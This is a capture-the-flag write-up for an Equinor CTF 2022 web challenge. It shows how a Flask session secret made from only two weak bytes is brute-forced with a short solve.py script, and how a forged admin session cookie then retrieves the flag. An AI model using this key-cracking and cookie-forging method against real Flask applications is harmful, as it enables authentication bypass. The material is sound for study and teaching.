





# Web/Flask Sessions

> Author: [@hagronnestad](https://github.com/hagronnestad)
> 
> This writeup is also available as a webpage here: [https://heinandre.no/ctf-equinor-22/web-flask-sessions/](https://heinandre.no/ctf-equinor-22/web-flask-sessions/)



The website looks like this:



I tried to register as `admin`:

> Forbidden
> 
> You don't have the permission to access the requested resource. It is either read-protected or not readable by the server.

That makes sense. Let's try to register as `test`:



Ok! So we're logged in, but the flag is hidden. We can see that a Cookie was created; `session`. It seems `base64`-encoded. Let's have a closer look:

```bash
$ echo -n "eyJuYW1lIjoidGVzdCJ9.Y2ZV5w.OKZKlhXL6Ctl2jMtEET6jO5IGxI" | base64 -d
{"name":"test"}base64: invalid input
```

First I thought this was a proper `JWT`, but malformed or used incorrectly in some way, but after going down that rabbit hole for a while, I finaly looked at the supplied app code... 🤦🏻‍♂️

Looking at the app (`app.py`) we can see the follwing:

```python
def generate_random_key():
    key = randbytes(1)
    key += choice(ascii_lowercase).encode("ascii")
    return key

flag = open("flag.txt", "r").read()
app = Flask(__name__)
seed(flag)
app.secret_key = generate_random_key()
```

`generate_random_key` creates a two byte key where the second byte doesn't even use the full `0-255` range. This should be crackable with some simple brute forcing.

After doing some research on `Flask` and `Flask-sessions` I found some code to verify a session token here: https://github.com/Paradoxis/Flask-Unsign/blob/master/flask_unsign/session.py

The code is part of the [Flask-Unsign](https://github.com/Paradoxis/Flask-Unsign) package. Which I might have been able to use directly, but ended up copying the relevant code for some reason...

Anyway, the following method is useful to us, because this let's us verify our secret while brute forcing:

```python
def verify(value: str, secret: str, legacy: bool=False, salt: str=DEFAULT_SALT) -> bool:
    """
    Verifies if a given value matches the signed signature
    :param value: Session cookie string to verify
    :param secret: Secret key
    :param salt: Salt (default: 'cookie-session')
    :param legacy: Should the legacy timestamp generator be used?
    :return: True if the secret key is valid
    """
    if not isinstance(secret, (bytes, str)):
        raise FlaskUnsignException(
            f"Secret must be a string-type (bytes, str) and received "
            f"{type(secret).__name__!r}. To fix this, either add quotes to the "
            f"secret {secret!r} or use the --no-literal-eval argument.")

    try:
        get_serializer(secret, legacy, salt).loads(value)
    except BadSignature:
        return False

    return True
```

I put together a `solve.py` script:

```python
# ...abbreviated

for x in range(0, 256): # the random byte
  for y in range(97, 123): # a-z (ascii_lowercase)

    key = bytearray()
    key.append(x)
    key.append(y)

    res = verify("eyJuYW1lIjoidGVzdCJ9.Y2ZV5w.OKZKlhXL6Ctl2jMtEET6jO5IGxI", bytes(key))

    if (res == True):
        print(key)
        print(f"Found! {key}")
        exit()
```

Let's try it:

```bash
$ python3 solve.py 
bytearray(b'\x13x')
Found! bytearray(b'\x13x')
```

Nice! We found the key; `\x13` and `x`.

I just used a modified version of `app.py` to create a valid session token for the `admin`-user:

From `app_modified.py`:
```python
#...abbreviated

# Set app.secret_key to the bruteforced key found with `solve.py`:
app.secret_key = b"\x13x"

#...abbreviated

# Clear the session on every page load and set `name` to `admin`
session.clear()
session['name'] = "admin"
# End
```

We run it:

```bash
$ python3 app.py 
 * Serving Flask app 'app' (lazy loading)
```

Navigate to the app:



We can see our session cookie; `eyJuYW1lIjoiYWRtaW4ifQ.Y2ZRHQ.IjkUOwQRMayBCjAG71cwrRWg6FY`.

We paste the cookie into the real web page and reload:



We are `admin` and we have the `flag`!

## Flag
```
EPT{flask-sessions-with-weak-key-is-no-goodie}
```
